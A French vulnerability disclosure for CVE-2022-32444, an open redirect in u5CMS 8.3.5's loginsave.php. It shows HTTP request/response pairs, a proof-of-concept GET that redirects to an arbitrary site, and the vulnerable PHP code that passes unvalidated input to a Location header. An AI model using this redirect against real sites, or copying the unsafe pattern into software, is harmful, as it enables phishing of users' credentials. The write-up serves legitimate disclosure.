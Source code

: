 # CVE-2022-32444

## Description

* **Vendeur :** Yuba ([https://yuba.ch/](https://yuba.ch/))
* **Produit :** u5CMS ([https://yuba.ch/index.php?c=u5cms\&l=en](https://yuba.ch/index.php?c=u5cms\&l=en))
* **Version(s) impactée(s) :** 8.3.5
* **Type de vulnérabilité :** Open Redirect ([CWE-601 - URL Redirection to Untrusted Site ('Open Redirect')](https://cwe.mitre.org/data/definitions/601.html))

La version 8.3.5 d'u5CMS est vulnérable à une faille de type Open Redirect via le paramètre d'URL `u` de la page `/loginsave.php`.

![](<../../.gitbook/assets/image (6) (1) (1).png>)

## Analyse de la vulnérabilité

La page `loginsave.php` est appelée suite à la soumission du formulaire d'authentification disponible à l'URL `/u5admin/` :&#x20;

![](<../../.gitbook/assets/image (2) (1).png>)

La présence du paramètre `u` est visible directement dans la cible du formulaire et a pour valeur `u5admin` :&#x20;

![](<../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png>)

La requête est alors la suivante :&#x20;

```http
POST /u5cms-8.3.5/loginsave.php?u=u5admin HTTP/1.1
Host: 192.168.56.101
Content-Length: 42
Origin: http://192.168.56.101
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.56.101/u5cms-8.3.5/u5admin/
Cookie: i1_l=P; i2_l=d; pidvesa=a; aclan=fr
Connection: close

u=sh4rpforc0rc3%40gmail.com&p=password
```

La réponse est une 302 redirigeant l'utilisateur vers la page d'administration du CMS :

```http
HTTP/1.1 302 Found
Date: Wed, 22 Jun 2022 22:37:16 GMT
Server: Apache/2.4.38 (Debian)
X-XSS-Protection: 0
Set-Cookie: u=sh4rpforc0rc3%40gmail.com; path=/; HttpOnly
Set-Cookie: p=2e6b6cdb26604865418a4814561a43d99ba549e3; path=/; HttpOnly
Location: u5admin?1655937436
Content-Length: 0
Connection: close
Content-Type: text/html; charset=latin1
```

Une fois la redirection effectuée, l'utilisateur se retrouve sur la page d'administration du CMS `/u5admin/` :

![](<../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png>)

En général, une faille de type OpenRedirect sur une mire de connexion peut s'exploiter de la façon suivante :&#x20;

1. L'URL de la mire est semblable à `http://exemple.com/auth?redirect=openredirectvulnerability`
2. L'attaquant soumet cette URL, en adaptant la valeur désirée au paramètre `redirect`, à sa victime
3. La victime renseigne ses identifiants et se retrouve redirigée vers l'URL renseignée par l'attaquant

Dans le cadre de u5cms puisque l'exploitation de la vulnérabilité est accessible directement en GET en soumettant l'URL `http://u5cms-host/u5cms-8.3.5/loginsave.php?u=openredirectvulnerability`, qu'importe que la victime soit authentifiée ou non :&#x20;

```http
GET /u5cms-8.3.5/loginsave.php?u=https://google.fr HTTP/1.1
Host: 192.168.56.101
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

```http
HTTP/1.1 302 Found
Date: Wed, 22 Jun 2022 22:54:42 GMT
Server: Apache/2.4.38 (Debian)
X-XSS-Protection: 0
Location: https://google.fr?1655938482
Content-Length: 0
Connection: close
Content-Type: text/html; charset=latin1
```

## Code vulnérable

Le fichier `loginsave.php` va récupérer la valeur du paramètre `u` et y effectuer un léger traitement :&#x20;

* récupérer la valeur dans `$u[0]` et des possibles fragments d'URL dans `$u[1]`
* rediriger l'utilisateur vers `index.php` si la valeur `$u[0]` est une chaine vide
* concaténer un timestamp dans l'URL grâce à la méthode `time()`
* rediriger l'utilisateur vers la valeur contenu dans `$u[0]`

{% code title="loginsave.php" %}
```php
$u=explode('#',$_GET['u']);
if(isset($u[1]))
  $u[1]='#'.$u[1];
else 
  $u[1]='';

if(trim($u[0])=='')
  $u[0]='index.php';
if(strpos($u[0],'?')>1)
  $u[0].='&'.time().$u[1];
else 
  $u[0].='?'.time().$u[1];

header("Location: ".$u[0]);
```
{% endcode %}

## Ressources

* [https://github.com/u5cms/u5cms/issues/50](https://github.com/u5cms/u5cms/issues/50)
